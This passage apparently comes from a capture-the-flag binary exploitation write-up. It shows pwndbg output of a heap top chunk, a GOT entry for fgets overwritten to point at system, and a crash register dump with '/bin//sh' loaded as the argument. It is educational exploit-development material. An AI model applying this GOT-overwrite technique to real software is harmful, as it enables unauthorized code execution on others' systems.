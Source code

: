```sh
0x224e360	0x0000000000000000	0x0000000000000000	................
0x224e370	0x0000000000000000	0x0000000000000000	................
0x224e380	0x0000000000000000	0x0000000000000000	................
0x224e390	0x0000000000000000	0x000000000001fc71	........q....... <-- Top chunk
```
{% endcode %}

If we check the `got` command, we'll see that `fgets` has been overwritten with `system`.

{% code overflow="wrap" %}
```sh
[0x404040] fgets@GLIBC_2.2.5 -> 0x404030 (system@got[plt]) —▸ 0x7fecc1f7fe50 (system) ◂— test   rdi, rdi
```
{% endcode %}

Notice the `0x7fecc1f7fe50` address; this is the address of `system` in Lib-C. Now compare that to when we **don't** call `view_time` before overwriting the GOT entry. This will be important later.

{% code overflow="wrap" %}
```sh
[0x404040] fgets@GLIBC_2.2.5 -> 0x404030 (system@got[plt]) —▸ 0x401066 (system@plt+6) ◂— push   3
```
{% endcode %}

So what happens when we run through the whole exploit?

{% code overflow="wrap" %}
```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000000000404030 in system@got[plt] ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 RAX  0xdf1300 ◂— '/bin//sh'
 RBX  0x0
 RCX  0x0
 RDX  0x7f5183555980 (_IO_2_1_stdin_) ◂— 0xfbad2088
 RDI  0xdf1300 ◂— '/bin//sh'
 RSI  0x64
 R8   0x31
 R9   0x4
 R10  0x402059 ◂— 0x57000000203e3e3e /* '>>> ' */
 R11  0x246
 R12  0x4010b0 (_start) ◂— xor    ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x7ffc1c97c540 —▸ 0x7ffc1c97c580 —▸ 0x7ffc1c97c5a0 —▸ 0x7ffc1c97c5b0 —▸ 0x401520 (__libc_csu_init) ◂— ...
 RSP  0x7ffc1c97c518 —▸ 0x401246 (write_data+65) ◂— mov    rax, qword ptr [rbp - 0x18]
 RIP  0x404030 (system@got[plt]) —▸ 0x7f51833dfe50 (system) ◂— test   rdi, rdi
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x404030 <system@got[plt]>    push   rax
```
{% endcode %}
